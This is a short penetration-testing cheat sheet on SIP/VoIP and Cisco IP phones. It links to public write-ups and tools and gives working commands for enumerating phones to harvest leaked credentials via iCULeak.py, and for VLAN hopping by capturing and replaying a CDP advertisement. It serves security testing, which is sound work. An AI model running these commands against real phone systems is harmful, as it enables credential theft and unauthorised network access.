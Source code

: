 ```yaml
---
description: Session Initiation Protocol / Voice over IP
---
```


# SIP / VoIP

- [https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4](https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4)




## IP Phones

- [https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/](https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/)
- [https://www.n00py.io/2022/01/unauthenticated-dumping-of-usernames-via-cisco-unified-call-manager-cucm/](https://www.n00py.io/2022/01/unauthenticated-dumping-of-usernames-via-cisco-unified-call-manager-cucm/)
- [https://github.com/trustedsec/SeeYouCM-Thief](https://github.com/trustedsec/SeeYouCM-Thief)
- [https://github.com/llt4l/iCULeak.py](https://github.com/llt4l/iCULeak.py)
- [https://github.com/Bond-o/vnum](https://github.com/Bond-o/vnum)

Enumerate phones for credentials leak:

```
$ python3 iCULeak.py -nA -c CUCM01.megacorp.local -l phones.txt 192.168.1.11
```



### VLAN Hopping on Cisco Voice

- [https://savvyadmin.com/vlan-hopping-on-cisco-voice-enabled-switch-ports/](https://savvyadmin.com/vlan-hopping-on-cisco-voice-enabled-switch-ports/)

Capture the first CDP advertisement while plugged through the phone:

```
$ sudo tcpdump -s 0 -w cdp-packet.cap -c 1 -ni eth0 ether host 01:00:0c:cc:cc:cc
$ sudo tcpdump -vr cdp-packet.cap
```

Relay it once a minute to simulate a legit phone device:

```
$ sudo watch -n 60 "tcpreplay -i eth0 cdp-packet.cap"
```

Configure a sub-interface to access the voice VLAN:

```
$ sudo vconfig add eth0 1337
$ sudo ifconfig eth0.1337 up
$ sudo dhclient -v eth0.1337
```
